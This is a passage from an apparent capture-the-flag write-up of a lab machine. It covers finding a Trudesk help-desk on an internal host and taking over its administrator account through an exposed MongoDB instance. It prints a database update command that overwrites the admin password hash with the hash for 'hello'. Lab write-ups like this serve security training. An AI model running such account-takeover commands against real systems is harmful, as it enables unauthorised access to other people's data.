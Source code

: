 
This was interesting, and we'll keep this in mind for now.&#x20;

#### 172.17.0.5

This host was running Trudesk on port 8118 (which is exactly what the MongoDB instance is for). We can directly add `trudesk.carpediem.htb` and access it on port 80 (without proxychains).

<figure><img src="../../../.gitbook/assets/image (507).png" alt=""><figcaption></figcaption></figure>

We don't have valid credentials (yet), so we can't login.

### Reset Password --> Ticket Enum

Since we have access toe the MongoDB for Trudesk, we can just reset the password for the administrator.&#x20;

```
db.getCollection("accounts").update({"_id":ObjectId("623c8b20855cc5001a8ba13c")},{$set:{"password":"$2a$10$uL4uO5nHLkSFdZ3Wed2eBeYPtolnWG9CnWmGYqE/pjwSkoogU9kc."}});
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

This would reset the admin password to 'hello'. Then we can login to Trudesk. Here, we can read the tickets that are present:

<figure><img src="../../../.gitbook/assets/image (638).png" alt=""><figcaption></figcaption></figure>
